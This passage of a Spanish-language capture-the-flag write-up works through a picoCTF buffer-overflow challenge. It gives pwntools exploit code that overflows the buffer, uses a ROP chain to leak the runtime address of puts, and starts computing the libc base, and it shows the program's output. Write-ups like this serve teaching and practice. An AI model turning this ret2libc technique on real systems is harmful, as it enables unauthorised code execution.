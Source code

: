 ```

payload = padding
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main)

p.recvuntil(b'WeLcOmE To mY EcHo sErVeR!\n')
p.sendline(payload)
p.recvline()

puts = u64(p.recvline().strip().ljust(8, b"\x00"))
log.info(f"Direccion de puts en tiempo de ejecucion: {hex(puts)}")
```

Ahora ya tenemos la direccion de ```puts``` en tiempo de ejecucion:

```bash
python3 exploit.py                                                ─╯
[+] Opening connection to mercury.picoctf.net on port 42072: Done
[*] Direccion de puts en tiempo de ejecucion: 0x7f6d50592a30
[*] Closed connection to mercury.picoctf.net port 42072
```

## Crafteando el exploit - parte 2

### Direccion base de libc

Para esto tenemos que sacar el offset de puts en libc y restarselo a la direccion de puts en tiempo de ejecucion

Con el comando: ```readelf -s libc.so.6 | grep puts``` podemos sacar el offset de puts en libc:

```422: 0000000000080a30   512 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5```

El cual es: ```80a30```

```py
from pwn import *

host = "mercury.picoctf.net"
puerto = 42072 #<-- Esto lo cambias

p = remote(host,puerto)

padding = b"A" * 136
pop_rdi = 0x400913
puts_got = 0x601018
puts_plt = 0x400540
main = 0x400771

payload = padding
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main)

p.recvuntil(b'WeLcOmE To mY EcHo sErVeR!\n')
p.sendline(payload)
p.recvline()

puts = u64(p.recvline().strip().ljust(8, b"\x00"))
log.info(f"Direccion de puts en tiempo de ejecucion: {hex(puts)}")

offset_puts = 0x80a30
```